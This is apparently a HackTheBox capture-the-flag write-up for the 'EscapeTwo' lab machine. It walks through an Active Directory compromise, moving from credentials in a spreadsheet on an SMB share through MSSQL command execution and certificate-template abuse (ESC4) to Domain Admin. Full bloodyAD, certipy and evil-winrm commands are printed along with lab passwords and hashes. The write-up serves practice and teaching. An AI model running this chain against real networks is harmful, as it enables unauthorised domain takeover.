# EscapeTwo -- HackTheBox (write-up)

**Difficulty:** Hard
**Box:** EscapeTwo (HackTheBox)
**Author:** dsec
**Date:** 2025-02-14

---

## TL;DR

### Assumed breach scenario. Extracted credentials from a corrupted .xlsx on an SMB share, pivoted through MSSQL to get a shell, then abused WriteOwner on a certificate service account to forge an admin certificate via ESC4 and get Domain Admin.

---

## Target info

- Domain: `sequel.htb` / `escapetwo.htb`
- Assumed breach creds: `rose:KxEPkKe6R8su`

---

## Enumeration















`nxc` errored out:









- `ryan` is the only user in the Remote Management Users group.

Tried moving `rose` to remote users group with ldeep -- **failed**:





- Got hash for `sql_svc` but could **not** crack it.

---

## SMB share & credential extraction

```bash
smbclient //10.10.11.51/Accounting\ Department -U rose
```



- `smbclient.py` would **not** work due to space escaping issues. Had to use `smbclient` instead.

Found a corrupted `.xlsx` -- unzipped and examined the XML:



Extracted credentials from the shared strings XML:
- `angela:0fwz7Q4mSpurIt99`
- `oscar:86LxLBMgEWaKUnBG`
- `kevin:Md9Wlq1E5bZnVDVo`
- `sa:MSSQLP@ssw0rd!`

---

## MSSQL & lateral movement

```bash
nxc mssql 10.10.11.51 -u sa -p 'MSSQLP@ssw0rd!' -x whoami --local-auth
```







Found `ryan`'s password: `WqSZAF6CysDQbGb3`



---

## Certificate abuse (ESC4)



- `ryan` can set himself as the owner of `CA_SVC`.
- `CA_SVC` is a certificate issuer.

Run these commands in a very fast sequence:

```bash
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'

dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"

sudo ntpdate sequel.htb

certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```



Got `ca_svc` hash: `3b181b914e7a9d5508ea1e20bc2b7fce`

Uploaded `Certify.exe` and ran it as `ryan`:

```bash
./Certify.exe find /domain:sequel.htb
```



- `ca_svc` is a member of `Cert Publishers` group with inherited permissions.



Overwrote the certificate template:

```bash
KRB5CCNAME=$PWD/ca_svc.ccache certipy template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
```



Requested a certificate as administrator:

```bash
certipy req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
```



Authenticated with the certificate (had to force the DC IP with `-dc-ip`):

```bash
certipy auth -pfx administrator_10.pfx -domain sequel.htb -dc-ip 10.10.11.51 -debug
```





Got admin hash: `aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff`

```bash
evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```



---

## Lessons & takeaways

- `smbclient` handles share names with spaces; `smbclient.py` does **not**
- Corrupted `.xlsx` files can sometimes be unzipped and examined as raw XML
- WriteOwner on a certificate service account can be chained into ESC4 for domain admin
- When certipy auth fails, use `-debug` and force the DC IP with `-dc-ip`
